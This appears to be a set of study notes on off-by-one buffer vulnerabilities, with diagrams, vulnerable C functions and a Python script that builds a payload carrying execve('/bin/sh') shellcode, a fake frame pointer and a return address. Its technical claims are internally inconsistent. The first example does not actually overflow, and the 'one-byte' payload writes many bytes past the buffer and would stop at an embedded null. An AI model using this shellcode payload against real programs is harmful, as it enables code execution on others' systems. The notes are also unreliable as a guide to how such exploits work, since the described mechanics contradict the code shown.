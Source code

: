 > [!idea] Off-by-One Exploit
> An off-by-one exploit is a vulnerability that occurs when a program **miscalculates array or buffer boundaries by one element or byte**.
> 
> Technical explanation:
> - Arises from improper indexing or length calculations
> - Often results from:
>   - Using `<=` instead of `<` in loop conditions
>   - Miscalculating buffer sizes
>   - Forgetting to account for null terminators in strings
> - Can lead to buffer overflows, data corruption, or arbitrary code execution
> 
> ```mermaid
> graph LR
>     A[Allocated Buffer] --> B[Valid Data]
>     B --> C[Off-by-One Overwrite]
>     C --> D[Adjacent Memory]
>     style A fill:#003366,color:#ffffff
>     style B fill:#004080,color:#ffffff
>     style C fill:#0066cc,color:#ffffff
>     style D fill:#0099ff,color:#ffffff
> ```
> 
> The diagram illustrates how an off-by-one error can cause a write operation to overflow into adjacent memory, potentially overwriting critical data or control structures.

> [!example] Off-by-One Exploit in Action
> Consider this vulnerable C function:
> 
> ```c
> void copy_string(char *dest, const char *src) {
>     int i;
>     for (i = 0; i <= strlen(src); i++) {
>         dest[i] = src[i];
>     }
> }
> ```
> 
> Exploit scenario:
> - Buffer `dest` is allocated 8 bytes
> - `src` contains "AAAAAAA" (7 characters)
> - The loop runs 8 times due to `<=` instead of `<`
> - On the 8th iteration, it writes the null terminator beyond the buffer
> - This overwrites adjacent memory, potentially corrupting data or control structures
> 
> Impact:
> - Could overwrite return addresses, enabling arbitrary code execution
> - May corrupt adjacent variables, leading to unexpected program behavior

> [!consider] Leveraging Off-by-One for Exploitation
> An off-by-one vulnerability provides subtle but potentially powerful opportunities for exploitation:
> 
> - **Variable Impact**: May affect different critical data depending on memory layout
>   - Could overwrite least significant byte of:
>     - Return address
>     - Saved base pointer (EBP/RBP)
>     - Function pointers
>     - Other sensitive data
> 
> - **Exploitation Strategies**:
>   1. **Control Flow Hijacking**:
>      - Redirect execution by modifying critical addresses
>      - May require combining with other techniques for full control
>   
>   2. **Information Disclosure**:
>      - Leak sensitive information by causing misalignment
>   
>   3. **Preparation for Further Attacks**:
>      - Set up conditions for more complex exploits
> 
> - **Challenges and Considerations**:
>   - Requires precise understanding of target's memory layout
>   - Effects can be unpredictable across different systems or compilations
>   - Often needs to be combined with other vulnerabilities for significant impact
> 
> ```mermaid
> graph TD
>     A[Off-by-One Vulnerability] --> B[Overwrite Critical Byte]
>     B --> C[Return Address]
>     B --> D[Saved Base Pointer]
>     B --> E[Function Pointer]
>     B --> F[Other Sensitive Data]
>     C --> G[Control Flow Hijacking]
>     D --> H[Stack Frame Manipulation]
>     E --> I[Arbitrary Function Call]
>     F --> J[Information Leakage]
>     style A fill:#003366,color:#ffffff
>     style B fill:#004080,color:#ffffff
>     style C,D,E,F fill:#0066cc,color:#ffffff
>     style G,H,I,J fill:#0099ff,color:#ffffff
> ```


> [!example] Off-by-One Exploit: Fake Frame Pointer Technique with Payload
> Consider this vulnerable C function:
> 
> ```c
> void vulnerable_function(char *user_input) {
>     char buffer[64];
>     for (int i = 0; i <= 64; i++) {  // Off-by-one error: should be < 64
>         buffer[i] = user_input[i];
>         if (user_input[i] == '\0') break;
>     }
> }
> ```
> 
> Exploit payload (64 bytes + 1 byte overflow):
> 
> ```python
> # Assuming 32-bit system, little-endian
> shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
> fake_ebp = 0xbfffee00  # Example stack address
> ret_addr = 0xbfffee10  # Address of shellcode in buffer
> 
> payload = b"A" * 32  # Padding
> payload += shellcode
> payload += b"B" * (64 - len(payload))  # More padding
> payload += (fake_ebp).to_bytes(4, byteorder='little')  # Fake EBP
> payload += (ret_addr).to_bytes(4, byteorder='little')  # Return address to shellcode
> payload += b"\x00"  # Off-by-one byte to overwrite LSB of saved EBP
> ```
> 
> Memory layout after exploitation:
> 
> ```mermaid
> graph TD
>     subgraph "Stack Frame"
>         A["buffer[0-31]: AAAA..."] --> B["buffer[32-54]: Shellcode"]
>         B --> C["buffer[55-63]: BBBB..."]
>         C --> D["Saved EBP: 0xbfffee00"]
>         D --> E["Return Address: 0xbfffee10"]
>         F["65th byte: \x00"] -.->|Overwrites| D
>     end
>     subgraph "Controlled Execution"
>         G["Fake EBP: 0xbfffee00"] --> H["Shellcode Address: 0xbfffee10"]
>     end
>     I["EBP Modification"] -.->|Redirects to| G
>     style A fill:#003366,color:#ffffff
>     style B fill:#004080,color:#ffffff
>     style C fill:#0066cc,color:#ffffff
>     style D fill:#ff6666,color:#ffffff
>     style E fill:#ff9999,color:#ffffff
>     style F fill:#ff3333,color:#ffffff
>     style G fill:#66cc66,color:#ffffff
>     style H fill:#33cc33,color:#ffffff
>     style I fill:#ffcc00,color:#000000
> ```
> 
> Exploitation process:
> 1. The payload overwrites the buffer with:
>    - Padding
>    - Shellcode (simple execve("/bin/sh", NULL, NULL))
>    - Fake EBP
>    - Return address pointing to shellcode
> 2. The 65th byte (\x00) overwrites the LSB of the saved EBP
> 3. When the function returns:
>    - It uses the fake EBP (0xbfffee00)
>    - The return address (0xbfffee10) points to the shellcode
> 4. Execution jumps to the shellcode, spawning a shell
> 
> This technique allows for reliable exploitation despite the limited off-by-one vulnerability, demonstrating how a single byte overflow can lead to arbitrary code execution.
